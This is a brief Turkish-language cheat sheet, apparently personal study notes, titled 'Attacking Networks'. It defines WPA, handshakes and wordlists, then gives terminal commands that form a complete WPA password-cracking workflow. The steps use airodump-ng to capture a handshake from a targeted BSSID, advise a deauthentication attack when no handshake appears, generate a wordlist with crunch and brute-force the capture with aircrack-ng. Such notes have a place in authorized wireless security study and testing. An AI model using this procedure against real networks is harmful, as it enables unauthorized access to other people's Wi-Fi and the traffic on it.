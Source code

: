 ### Ağlara Saldırmak

**_ WPA _**
WPA (Wi-Fi Protected Access), kablosuz ağlarda veri güvenliğini sağlamak için kullanılan bir şifreleme ve kimlik doğrulama protokolüdür.

-Handshake- kablosuz bir ağa (Wi-Fi) bağlanmak isteyen bir cihaz ile modem (router) arasında yapılan kimlik doğrulama işlemidir.

-Wordlist- siber güvenlikte ve özellikle brute-force saldırılarında kullanılan, içinde şifre olabilecek kelimelerin (parola tahminlerinin) bulunduğu metin dosyasıdır (.txt).

//terminalle password kırma

~iwconfig //monitor moda geç
~airodump-ng wlan0mon //ağ bilgileri al
~airodump-ng --channel 9 --bssid E4:C3:2A:B7:23:90 --write airodumptest wlan0mon //handshake üstte çıkar.Çıkmazsa ağdan atma saldırısı yap. Sonra çıkacaktır. handshake çıkmış halde write yazdırdığın dosya lazım

//Crunch kali de yüklüdür
~crunch 8 9 xy123 -o testwordlist // 8-9 haneli password, içerisinde xy123 geçen
~aircrack-ng handshake-file-01.cap -w testwordlist // üstteki dosyaları ekle kırmaya başlar
